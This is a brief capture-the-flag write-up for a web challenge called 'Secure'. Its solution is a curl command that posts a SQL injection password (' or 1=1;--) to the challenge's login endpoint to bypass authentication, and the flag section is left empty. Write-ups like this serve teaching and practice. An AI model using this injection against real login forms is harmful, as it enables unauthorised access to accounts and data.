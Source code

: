 # Web / Secure
By BrownieInMotion

Just learned about encryption—now, my website is unhackable!

https://secure.mc.ax/

# Solution
The website looks like this. 

<img src="https://user-images.githubusercontent.com/86171033/125356385-ff7d7900-e31a-11eb-8e17-8b5c4e7915f5.png" alt="image" width="800"/>

One solution is to use curl:
```curl https://secure.mc.ax/login --data "username=admin&password='or 1=1;--"```

# Flag
``````
